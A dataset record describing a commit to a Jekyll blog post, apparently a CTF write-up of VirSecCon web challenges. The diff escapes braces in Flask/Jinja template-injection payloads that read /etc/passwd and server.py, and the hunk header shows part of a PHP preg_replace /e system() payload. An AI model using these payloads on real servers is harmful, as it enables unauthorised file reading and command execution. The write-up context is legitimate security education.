

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-virseccon-web-challenges-ctf.md, in a window 1280 px wide and 900 px high, scrolled down 2780 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-04-5-virseccon-web-challenges-ctf.md

````diff
--- a/_posts/2020-04-5-virseccon-web-challenges-ctf.md
+++ b/_posts/2020-04-5-virseccon-web-challenges-ctf.md
@@ -126,14 +126,14 @@ by adding in the filter field `/e system("cat flag_name_dont_guess_plz index.php
 
 ### Mask : Web Challenge
 
-By testing  `{{1+1}}`, we confirm that we are using `flask` framework. Let try to injection `python` code to read local files
+By testing  `\{\{1+1\}\}`, we confirm that we are using `flask` framework. Let try to injection `python` code to read local files
 
 ```python
-{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
+\{\{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() \}\}
 ```
 but we couldn't find any interesting files, so lets read the server file itself.
 
-`{{ ''.__class__.__mro__[2].__subclasses__()[40]('server.py').read() }}`
+`\{\{ ''.__class__.__mro__[2].__subclasses__()[40]('server.py').read() \}\}`
 
 
 ```python
````
